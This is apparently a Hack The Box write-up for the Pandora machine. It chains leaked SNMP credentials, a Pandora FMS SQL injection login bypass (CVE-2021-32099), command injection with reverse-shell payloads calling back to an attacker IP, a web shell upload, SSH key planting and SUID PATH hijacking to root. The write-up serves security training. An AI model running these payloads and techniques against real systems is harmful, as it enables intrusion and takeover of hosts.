








---
tags:
  - snmp
  - pandora_fms
  - CVE-2021-32099
  - CVE-2020-13851
group: Linux
---


- Machine : https://app.hackthebox.com/machines/pandora
- Reference : https://0xdf.gitlab.io/2022/05/21/htb-pandora.html
- Solved : 2025.3.11. (Tue) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Open Ports**: TCP 22 (SSH), TCP 80 (HTTP), UDP 161 (SNMP).
    - **Identified Domain**: `pandora.htb`, `pandora.panda.htb`.
    - **Discovered Services**:
        - Apache 2.4.41 (Ubuntu)
        - SNMP (revealed OS info and credentials via `snmpwalk`)
    - **Information Leakage via SNMP**:
        - Found user **`daniel`** and password **`HotelBabylon23`** in SNMP response.
        - Discovered `/usr/bin/host_check` binary with hardcoded credentials.
2. **Shell as `daniel`**
    - **SSH Login** using `daniel:HotelBabylon23`.
    
3. **Pandora FMS Console Access**
    - Found internal service: `pandora.panda.htb` accessible only via **localhost**.
    - **Local Port Forwarding** used to access console: `ssh -L 8888:localhost:80 daniel@target`.
    
4. **Bypass Login via SQL Injection (CVE-2021-32099)**
    - Exploited SQLi in `chart_generator.php?session_id=...`.
    - Bypassed login, gained **admin panel access**.
    - **Changed admin password** via UI.
    
5. **Shell as `matt`**
    - **Method #1 – RCE via Authenticated POST Injection (CVE-2020-13851)**:
        - Crafted POST request to trigger **command injection** via `perform_event_response`
        - Gained reverse shell as `matt`.
    - **Method #2 – PHP File Upload**:
        - Uploaded **web shell** via admin file manager.
        - Accessed uploaded PHP shell and gained reverse shell.
        
6. **Shell as `root`**
    - Found unusual **SUID binary**: `/usr/bin/pandora_backup`.
    - Used `ltrace` to analyze behavior — calls `tar` without absolute path.
    - Created **malicious `tar` script** (`#!/bin/bash` → spawns shell).
    - Modified `$PATH` to prioritize malicious `tar`.
    - Executed `pandora_backup` → **root shell spawned**.

### Key Techniques:

- **Information Disclosure via SNMP**: Leaked credentials.
- **SSH Access with Disclosed Credentials**.
- **SQL Injection (CVE-2021-32099)**: Admin login bypass.
- **Command Injection RCE (CVE-2020-13851)**: Via admin panel request.
- **Web Shell Upload**: Leveraged File Manager in Pandora FMS.
- **SUID Binary Exploitation**: PATH hijacking in `pandora_backup`.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/pandora]
└─$ /opt/custom-scripts/port-scan.sh 10.10.11.136
[*] Performing quick TCP port scan on 10.10.11.136...
[*] Performing quick UDP port scan on 10.10.11.136 (top 1000 UDP ports)...
[+] Found open TCP ports: 22,80
[*] Performing detailed TCP scan on 10.10.11.136...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-11 03:59 MDT
Nmap scan report for 10.10.11.136
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Play | Landing
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.62 seconds
[+] Found open UDP ports: 161,3283,20031,33281,49181,49182,49193
[*] Performing detailed UDP scan on 10.10.11.136...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-11 03:59 MDT
Nmap scan report for 10.10.11.136
Host is up (0.12s latency).

PORT      STATE  SERVICE         VERSION
161/udp   open   snmp            SNMPv1 server; net-snmp SNMPv3 server (public)
3283/udp  closed netassistant
20031/udp closed bakbonenetvault
33281/udp closed unknown
49181/udp closed unknown
49182/udp closed unknown
49193/udp closed unknown
Service Info: Host: pandora

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds
```

- 2 tcp ports : ssh(22), http(80)
- 1 udp port : snmp(161)

### http(80)



Add `pandora.htb` domain on `/etc/hosts` file.

```bash
┌──(kali㉿kali)-[~/htb/pandora]
└─$ gobuster dir -u http://10.10.11.136 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.136
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.136/assets/]
```

No other vectors were found.
Let's move on to SNMP service.

### snmp(161)

```bash
┌──(kali㉿kali)-[~/htb/pandora]
└─$ snmpwalk -v 2c -c public 10.10.11.136                          
iso.3.6.1.2.1.1.1.0 = STRING: "Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (471577) 1:18:35.77
iso.3.6.1.2.1.1.4.0 = STRING: "Daniel"
iso.3.6.1.2.1.1.5.0 = STRING: "pandora"
iso.3.6.1.2.1.1.6.0 = STRING: "Mississippi"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (5) 0:00:00.05
...SNIP...
iso.3.6.1.2.1.25.4.2.1.5.828 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"
```

It discloses several information;
- OS version is `Linux 5.4.0-91-generic Ubuntu`.
- There's a process run by command line which contains `daniel`'s credential : `HotelBabylon23`
- There's a binary `/usr/bin/host_check` which keeps running on the target system.


# Shell as `daniel`

### ssh(22)

With the found credential, I can login as `daniel` via SSH.

```bash
┌──(kali㉿kali)-[~/htb/pandora]
└─$ ssh daniel@10.10.11.136
daniel@10.10.11.136's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

<SNIP>

Last login: Tue Mar 11 10:24:05 2025 from 10.10.14.7

daniel@pandora:~$ id
uid=1001(daniel) gid=1001(daniel) groups=1001(daniel)
daniel@pandora:~$ whoami
daniel
```


# Pandora FMS Login Bypass

### Enumeration

Let's run `linPEAS`.

```ruby
╔══════════╣ Users with console
daniel:x:1001:1001::/home/daniel:/bin/bash                                                   
matt:x:1000:1000:matt:/home/matt:/bin/bash
root:x:0:0:root:/root:/bin/bash


══╣ PHP exec extensions
drwxr-xr-x 2 root root 4096 Dec  3  2021 /etc/apache2/sites-enabled                          
drwxr-xr-x 2 root root 4096 Dec  3  2021 /etc/apache2/sites-enabled
lrwxrwxrwx 1 root root 35 Dec  3  2021 /etc/apache2/sites-enabled/000-default.conf -> ../sites-available/000-default.conf                                                                 
<VirtualHost *:80>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
lrwxrwxrwx 1 root root 31 Dec  3  2021 /etc/apache2/sites-enabled/pandora.conf -> ../sites-available/pandora.conf                                                                         
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
  <Directory /var/www/pandora>
    AllowOverride All
  </Directory>
  ErrorLog /var/log/apache2/error.log
  CustomLog /var/log/apache2/access.log combined
</VirtualHost>


-rw-r--r-- 1 root root 1332 Apr 13  2020 /etc/apache2/sites-available/000-default.conf
<VirtualHost *:80>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
lrwxrwxrwx 1 root root 35 Dec  3  2021 /etc/apache2/sites-enabled/000-default.conf -> ../sites-available/000-default.conf
<VirtualHost *:80>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html
        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

It seems that there's another web service running with a different domain : `pandora.panda.htb`
Also, it takes request from only localhost unlike the default service.

```bash
daniel@pandora:/var/www$ ls
html  pandora


daniel@pandora:/var/www/pandora$ ls
index.html  pandora_console


daniel@pandora:/var/www/pandora/pandora_console$ ls
ajax.php              extras                            pandora_console_logrotate_suse
attachment            fonts                             pandora_console_logrotate_ubuntu
audit.log             general                           pandora_console_upgrade
AUTHORS               godmode                           pandoradb_data.sql
composer.json         images                            pandoradb.sql
composer.lock         include                           pandora_websocket_engine.service
COPYING               index.php                         tests
DB_Dockerfile         install.done                      tools
DEBIAN                mobile                            vendor
docker_entrypoint.sh  operation                         ws.php
Dockerfile            pandora_console.log
extensions            pandora_console_logrotate_centos
```

I think I need to open a local port forwarding to make our request seems to be originated from target localhost.

```bash
┌──(kali㉿kali)-[~/htb/pandora]
└─$ ssh -L 8888:localhost:80 daniel@10.10.11.136
daniel@10.10.11.136's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

...SNIP...


Last login: Tue Mar 11 10:24:15 2025 from 10.10.14.7
daniel@pandora:~$ 
```

Then, let's add this to `/etc/hosts`.

```bash
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts                                                         
10.10.11.136    pandora.htb
127.0.0.1       localhost pandora.panda.htb
127.0.1.1       kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

After adding the domain information on `/etc/hosts`, I can fetch the `pandora.panda.htb` page.


I tried to reuse the credential for `daniel` but got rejected.


At the bottom of the main page, there's a version information : `v7.0NG.742_FIX_PERL2020`

### RCE exploit (Authenticated) (failed)

I found an RCE exploit from the following;
https://www.exploit-db.com/exploits/50961

I tried to reuse the credential for `daniel` but it failed.

```bash
┌──(kali㉿kali)-[~/htb/pandora]
└─$ python 50961.py -t locahost 8080 -u daniel -p 'HotelBabylon23'
ERRORED: Provide both a username and password! "-u <username> <password>"


┌──(kali㉿kali)-[~/htb/pandora]
└─$ python 50961.py -t locahost 8080 -u daniel 'HotelBabylon23' 

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2020-5844 (Pandora FMS v7.0NG.742) - Remote Code Execution
OPTIONS: Web Shell Mode
USERNAME: daniel
PASSWORD: HotelBabylon23
WEBFILE: unicord.php
WEBSITE: http://locahost:8080/pandora_console
ERRORED: Could not log in to website!
```

### SQL Injection (CVE-2021-32099)

I found another detailed explanation about different approaches;
https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/

This includes "Unauthenticated SQL Injection" vulnerability, which might be suitable for our case.

[This post](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained/) mentions four of those, a SQL injection (CVE-2021-32099), a phar deserialization (CVE-2021-32098), a remote file inclusion (CVE-202132100), and a cross-site request forgery (no CVE), and goes into a ton of detail about the SQL injection.

The injections is in `/include/chart_generator.php`. It passes `$_REQUEST['session_id']` to the constructor for a `PandoraFMS\User` object, and that is not sanitized.

Let's try simple PoC with `&session_id='`.



With `ORDER BY`, I checked that the number of columns is 3.


I found a easy [one-line PoC](https://github.com/ibnuuby/CVE-2021-32099) to enable authentication automatically.

```bash
┌──(kali㉿kali)-[~/htb/pandora]
└─$ curl 'http://pandora.panda.htb:8888/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271'     
```

After that, when I was trying to fetch the main page again, I was already authenticated as `admin` user.



After that, I can easily change `admin`'s password.




# Shell as `matt`
### Method #1 Remote Code Execution via CVE-2020-13851

The [reference](https://www.coresecurity.com/core-labs/advisories/pandora-fms-community-multiple-vulnerabilities) explains RCE vulnerability existing on Pandora FMS server.

It's triggered when "View events" clicked.


Then Burpsuite soon captures the request as follows;



By sending modified data in POST request, I can trigger command injection.
Here's the PoC;

```
page=include/ajax/events&perform_event_response=10000000
&target=bash -i >%26 /dev/tcp/10.10.14.7/9000 0>%261&response_id=1
```

I encoded the command line as URI format.

```
page=include/ajax/events&perform_event_response=10000000&target=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.7%209000%20%3E%2Ftmp%2Ff&response_id=1
```

Then, listener soon spawns a shell.

```shell
┌──(kali㉿kali)-[~/htb/pandora]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.136] 42106
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(matt) gid=1000(matt) groups=1000(matt)
$ whoami
matt
```

I got a shell as `matt`.

### Method #2 via File Upload

Another approach is uploading PHP file via File manager.
I can access to this function via "Admin tools" -> "File manager".



Then, click "Upload" button, and select prepared PHP file.



There's a warning message when I put pointer over the upload file, but it's not blocking.



After setting up a listener, I opened the PHP file.
However, it's not directly loaded, but instead download the file.

I inspected the link URL.

```bash
http://pandora.panda.htb:8888/pandora_console/include/get_file.php?file=L3BhbmRvcmFfY29uc29sZS9pbWFnZXMvcnNoZWxsXzkwMDEucGhw&hash=148c8994660bbdfdab0b4b2ff6f0aab9

======

┌──(kali㉿kali)-[~/htb/pandora]
└─$ echo -n 'L3BhbmRvcmFfY29uc29sZS9pbWFnZXMvcnNoZWxsXzkwMDEucGhw&hash=148c8994660bbdfdab0b4b2ff6f0aab9' | base64 -d
/pandora_console/images/rshell_9001.php
```

I think I can access to the upload file through the decoded path.

```bash
┌──(kali㉿kali)-[~/htb/pandora]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.136] 59108
Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 14:42:56 up  5:56,  2 users,  load average: 0.01, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
daniel   pts/0    10.10.14.7       10:24    1:12m  0.13s  0.13s -bash
daniel   pts/1    10.10.14.7       11:50    2:52m  0.02s  0.02s -bash
uid=1000(matt) gid=1000(matt) groups=1000(matt)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
matt
```

I can get `matt`'s shell!


# Shell as `root`

### Enumeration

As suggested on the previous reference post, I checked `/include/config.php` to find DB credential.

```php
$ cat include/config.php
<?php
// File generated by centos kickstart
$config["dbtype"] = "mysql";
$config["dbname"]="pandora";
$config["dbuser"]="pandora";
$config["dbpass"]="PandoraFMSSecurePass2021";
$config["dbhost"]="localhost";
$config["homedir"]="/var/www/pandora/pandora_console";
$config["homeurl"]="/pandora_console";
error_reporting(0); 
$ownDir = dirname(__FILE__) . '/';
include ($ownDir . "config_process.php");
?>
```

Let's run `linPEAS` again to see privesc vectors.

```swift
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                                                                                           
strings Not Found                                                                            
-rwsr-xr-x 1 root root 163K Jan 19  2021 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 31K May 26  2021 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)/Generic_CVE-2021-4034
-rwsr-xr-x 1 root root 84K Jul 14  2021 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 44K Jul 14  2021 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 87K Jul 14  2021 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39K Jul 21  2020 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-x--- 1 root matt 17K Dec  3  2021 /usr/bin/pandora_backup (Unknown SUID binary!)
-rwsr-xr-x 1 root root 67K Jul 14  2021 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 55K Jul 21  2020 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 67K Jul 21  2020 /usr/bin/su
-rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 39K Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 52K Jul 14  2021 /usr/bin/chsh
-rwsr-xr-x 1 root root 463K Jul 23  2021 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 51K Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 23K May 26  2021 /usr/lib/policykit-1/polkit-agent-helper-1
```

There's unusual binary : `/usr/bin/pandora_backup`

I analyzed what functions are being executed using `ltrace`.

```bash
matt@pandora:/home/matt$ ltrace /usr/bin/pandora_backup 
ltrace /usr/bin/pandora_backup
getuid()                                         = 1000
geteuid()                                        = 1000
setreuid(1000, 1000)                             = 0
puts("PandoraFMS Backup Utility"PandoraFMS Backup Utility
)                = 26
puts("Now attempting to backup Pandora"...Now attempting to backup PandoraFMS client
)      = 43
system("tar -cvf /root/.backup/pandora-b"...tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                           = 512
puts("Backup failed!\nCheck your permis"...Backup failed!
Check your permissions!
)     = 39
+++ exited (status 1) +++
```

It seems that `tar` is executed by this `pandora_backup`.
But it seems that it's executed with relative path.

Let's check `$PATH`.

```bash
matt@pandora:/home/matt$ echo $PATH
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

And `tar` is located in `/usr/bin` directory.

```bash
matt@pandora:/home/matt$ find / -name tar 2>/dev/null
find / -name tar 2>/dev/null
/usr/bin/tar
```

### Obtain a stable shell

This system doesn't allow the reverse shell session to execute SUID binary as escalated user privilege due to `mpm-itk` (0xdf)

So, I put my public key into `authorized_keys` and opened a more stable SSH shell.

```bash
matt@pandora:/home/matt/.ssh$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMbNpwF7JxKJ3pkPZ9Rpppuf9MpPwVe+72V+H/kCC7sg kali@kali' > authorized_keys
```

```sql
┌──(kali㉿kali)-[~/.ssh]
└─$ ssh matt@10.10.11.136                
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

...SNIP...

matt@pandora:~$ id
uid=1000(matt) gid=1000(matt) groups=1000(matt)
```

Here's my strategy;
- Create a malicious `tar` on writable directory.
- Prepend the directory path at `$PATH`

Now let's create a malicious `tar`.

```bash
matt@pandora:~$ cat tar
#!/bin/bash

bash
```

Then, let's set `$PATH` environment variable.

```bash
matt@pandora:~$ export PATH=/home/matt:$PATH
matt@pandora:~$ echo $PATH
/home/matt:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Then, I ran `pandora_backup` again, and soon `root` shell is spawned.

```bash
matt@pandora:~$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
root@pandora:~# id
uid=0(root) gid=1000(matt) groups=1000(matt)
root@pandora:~# whoami
root
```

I got a `root` shell!